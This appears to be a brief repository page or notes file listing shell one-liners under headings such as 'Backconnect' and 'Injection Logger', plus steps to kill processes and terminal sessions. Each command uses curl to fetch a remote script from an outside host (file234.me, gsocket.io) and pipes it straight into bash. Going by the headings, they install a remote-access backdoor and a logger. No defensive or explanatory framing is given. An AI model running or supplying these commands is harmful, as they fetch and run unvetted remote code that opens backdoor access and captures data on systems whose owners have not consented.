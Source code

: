 Backconnect
======================
bash -c "$(curl -fsSL https://file234.me/z)"

Injection Logger
======================
bash -c "$(curl -fsSL https://file234.me/self)"
=====================
GS_UNDO=1 bash -c "$(curl -fsSL https://gsocket.io/y)"

Uninstall
=====================
- pkill defunct
- kill -KILL PID
- pkill -t pts/0
